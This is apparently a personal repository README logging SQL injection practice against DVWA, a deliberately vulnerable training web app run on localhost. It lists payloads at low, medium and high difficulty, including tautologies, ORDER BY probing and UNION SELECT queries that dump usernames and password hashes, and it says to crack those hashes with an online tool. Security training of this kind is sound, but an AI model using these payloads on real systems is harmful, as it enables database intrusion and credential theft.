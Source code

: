 # DVWA-Practice
Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable.The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface. This repo. contains documentation of the Exploits during my practice session.

Directory: localhost/DVWA-master/vulnerabilities/sqli/

# SQLi - Difficulty:Low
User Id -->


'or 1=1# 


'or'1'='1


' ORDER BY 3#


' ORDER BY 2#


' UNION SELECT user, password FROM users#       (# for commenting the rest of the statements after the query.)


# SQLi - Difficulty:Medium
inspect-->

User Id


<option value="1 or 1=1 UNION SELECT user, password FROM users#">' UNION SELECT username, password FROM users--1</option>

NB: However due to the SQL query not having **quotes** around the parameter, this will not fully protect the query from being altered.
    (View Help & Source Code)
    
    
# SQLi - Difficulty:High
1' or 1=1 UNION SELECT user, password FROM users#

# SQLi - Cracking the Hashes
Set Setting: Low & collect the hashes.


' UNION SELECT user, password FROM users#


Paste it into crackstation.net to get the passwords.

# Additional Help: https://portswigger.net/web-security/sql-injection/union-attacks


